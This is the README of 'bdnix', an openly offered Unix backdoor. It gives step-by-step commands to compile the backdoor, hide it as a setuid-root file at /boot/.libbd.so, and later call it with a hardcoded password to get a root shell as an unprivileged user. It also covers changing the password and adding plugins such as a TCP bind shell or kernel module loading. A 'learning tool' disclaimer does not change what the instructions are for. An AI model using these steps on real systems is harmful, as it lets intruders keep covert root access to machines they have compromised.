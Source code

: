 <pre>
  ___ ___  _  _ _____  __
 | _ )   \| \| |_ _\ \/ /
 | _ \ |) | .` || | >  < 
 |___/___/|_|\_|___/_/\_\                          

Trivial userspace backdoor for Unix
Emanuele Paiano - nixw0rm@gmail.com

</pre>

<p>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!</p>                      


<h2 class="section-heading">GETTING STARTED</h2>

<ul>
<li>
 <p>Open root terminal in current directory and go into bdnix folder</p>
  <pre>
	# cd /path/bdnix
  </pre>
</li>
<li>
<p>From root run 'make' to build binary file</p>
<pre>
	# make
</pre>
<p>
copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,</p>
<pre>
        # cp -p libbd.so /boot/.libbd.so
        # chmod +sx /boot/.libbd.so
</pre>       
<p>   and setuid file (chmod +x).</p>


</li>
<li><p>
	logout from server and log in again with unprivileged user. 
    </p>
</li>
<li>
<p> Run binary with </p>
<pre>
	$ /boot/.libbd.so joshua /bin/sh
</pre>
<p> if you see '#' then.. you are root! :)</p>




<h2 class="section-heading">CUSTOMIZE PASSWORD</h2>


Opening settings.h you can change default password "joshua" (can you remember WOPR?):

        #define ARG1 "joshua"

we can change it to "chips"

        #define ARG1 "chips"

Now recompiling (read above) and running with new password:

        $ /boot/.libbd.so chips /bin/sh
        #

If we have rootshell, it works! :)


<h2 class="section-heading">ENABLING PLUGINS</h2>

Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:

        /* PLUGINS */

        /* enable rootshell */
        #define SHELL 1
        
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:

        /* enable rootshell */
        #define SHELL 0
        
        /* my plugin */
        #define MYPLUGIN 1
        
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:

        int <PLUGIN_NAME>_init()
        {
          //code plugin
        }

   replacing <PLUGIN_NAME> with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():

    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    
   and edit previos code in this:
   
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if <PLUGIN_NAME> == 1
      <PLUGIN_NAME>_init();
    #endif

   removing <PLUGIN_NAME> with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
Trivial userspace backdoor
Copyright (C) 2012  Emanuele Paiano
nixw0rm@gmail.com

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
